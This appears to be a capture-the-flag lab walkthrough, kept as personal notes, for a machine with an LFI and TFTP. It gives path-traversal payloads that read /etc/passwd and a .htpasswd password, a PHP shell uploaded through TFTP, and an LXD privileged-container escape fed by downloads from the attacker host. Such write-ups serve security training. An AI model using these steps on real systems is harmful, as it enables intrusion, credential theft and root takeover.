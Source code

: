 public:: true
tags:: lxc, apache, htaccess, htpasswd, tftp

- Open ports
	- TCP
	  
	  ```
	  80/tcp open  http
	  ```
	- UDP
	  id:: 655238b7-09f8-454b-ba4a-40a2d4b29455
	  
	  ```
	  68/udp open|filtered dhcpc
	  69/udp open|filtered tftp
	  ```
- Findings
	- LFI at `http://10.129.38.202/?file=`
	  id:: 655238e3-68b6-42e6-9ec4-6edf9f86c35e
	- OS usernames
	  *Fetched from `http://10.129.38.202/?file=../../../../../../../../etc/passwd`*
	  ```
	  # Only list the most interesting ones
	  root
	  [...]
	  backup
	  mike
	  tftp
	  [...]
	  ```
	- CANCELED Tested RFI but didn't work
	- Try to use `gobuster` to search for known dotfiles in `/home/mike`
	  *Used this dotfiles oriented [wordlist](https://github.com/Karanxa/Bug-Bounty-Wordlists/blob/main/dotfiles.txt)*.
	  ```bash
	  > gobuster fuzz -u "http://10.129.38.202/?file=../../../../../../../../home/mike/FUZZ" -w wordlist-dotfiles.txt --exclude-length 0
	  [...]
	  Found: [Status=200] [Length=15] [Word=.bash_profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_profile
	  Found: [Status=200] [Length=220] [Word=.bash_logout] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_logout
	  Found: [Status=200] [Length=3771] [Word=.bashrc] http://10.129.38.202/?file=../../../../../../../../home/mike/.bashrc
	  Found: [Status=200] [Length=807] [Word=.profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.profile
	  ```
	  No interesting files found.
	- Found an interesting `.htpasswd` file
	  id:: 65523a47-5070-40a1-af56-9b48b9b351b4
	  
	  ```bash
	  > curl "http://10.129.38.202/?file=../../../../../../../../var/www/html/.htpasswd"
	  mike:Sheffield19
	  ```
		- TODO Search for a wordlist optimized for webservers file and use it with `gobuster`.
		- #+BEGIN_CAUTION
		  mike:Sheffield19
		  #+END_CAUTION
		- #+BEGIN_TIP
		  I now have the username and password coming from a `.htpasswd` file. Maybe `mike` reuse the same password for his OS user.
		  #+END_TIP
	- I can upload files via [TFTP](logseq://graph/HTB-Notes?block-id=655238b7-09f8-454b-ba4a-40a2d4b29455) and execute php file via the [LFI](logseq://graph/HTB-Notes?block-id=655238e3-68b6-42e6-9ec4-6edf9f86c35e).
		- Upload a php shell via TFTP.
		- Execute the php shell with the LFI.
		- ```bash
		  > id
		  uid=33(www-data) gid=33(www-data) groups=33(www-data)
		  > www-data@included:/$ su mike
		  Password: Sheffield19
		  > id
		  uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
		  ```
	- **User flag** at `/home/mike/user.txt`
		- a56ef91d70cfbf2cdb8f454c006935a1
		  background-color:: green
- ### Privesc
	- The user `mike` is part of the group `lxc(108)`. We can upload an lxc container image to the target machine and start a privileged container to escalate privileges.
		- Prepare the container image in Kali
		  *Download the unified (incus.tar.xz and rootfs.tar.xz) lxc image for alpine from [here](https://images.linuxcontainers.org/images/)*
		  ```bash
		  curl "https://images.linuxcontainers.org/images/alpine/3.15/amd64/default/20231107_13%3A00/incus.tar.xz" -o incus.tar.xz
		  curl "https://images.linuxcontainers.org/images/alpine/3.15/amd64/default/20231107_13%3A00/rootfs.tar.xz" -o rootfs.tar.xz
		  ```
		- Spawn a webserver to later upload those files to the victim machine
		- Import the alpine container image to the target machine
		  *From the target machine*
		  ```bash
		  # Fetch the alpine image
		  curl "http://10.10.14.147:8000/alpine.tar.xz" -o alpine.tar.xz
		  curl "http://10.10.14.147:8000/rootfs.tar.xz" -o rootfs.tar.xz
		  # Import it
		  lxc image import incus.tar.xz rootfs.tar.xz --alias alpine
		  # Check if it got imported
		  mike@included:~$ lxc image ls
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  | ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION                |  ARCH  |  SIZE  |         UPLOAD DATE          |
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  | alpine | 9bea64510930 | no     | Alpinelinux 3.15 x86_64 (20231107_13:00) | x86_64 | 2.45MB | Nov 12, 2023 at 5:22pm (UTC) |
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  ```
		- Start a privileged container
		  
		  ```bash
		  lxc init alpine privesc -c security.privileged=true
		  lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
		  lxc start privesc
		  ```
		- Access the container and all its loots
		  ```bash
		  lxc exec privesc /bin/sh
		  ```
	- **Root flag** at `/root/root.txt`
		- c693d9c7499d9f572ee375d4c14c7bcf
		  background-color:: green